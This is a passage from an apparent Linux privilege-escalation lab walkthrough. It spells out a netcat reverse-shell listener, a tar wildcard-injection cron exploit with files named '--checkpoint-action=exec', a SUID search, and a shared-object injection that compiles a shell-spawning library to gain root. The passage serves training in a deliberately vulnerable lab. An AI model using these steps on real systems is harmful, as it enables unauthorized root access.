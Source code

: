 	nc -nvlp 4444

	Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:

	rm /home/user/shell.elf
	rm /home/user/--checkpoint=1
	rm /home/user/--checkpoint-action=exec=shell.elf
	
# Task 11 - SUID/SGID Executables Known Exploits

	Using the following command you can find all the SUID/SGID's on the system
	find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
	
	From here you can look through the results and then try and find an exploit online
	
	In the case of our machine, we can use a Local Privilege Escalation exploit for /usr/sbin/exim-4.84-3
	
	In an actual pentest we would use wget or curl to get the exploit on our system but this one already has it on there for us
	
	We simply run the script and it puts us in a root shell
	
# Task 12 - SUID/SGID Executables Shared Object Injection

	The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.

	First, execute the file and note that currently it displays a progress bar before exiting:

	/usr/local/bin/suid-so

	Run strace on the file and search the output for open/access calls and for "no such file" errors:

	strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

	Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

	Create the .config directory for the libcalc.so file:

	mkdir /home/user/.config

	Example shared object code can be found at /home/user/tools/suid/libcalc.c. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:

	gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c

	Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

	/usr/local/bin/suid-so
	
# Task 13 - SUID/SGID Executables Environment Variables

	The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.
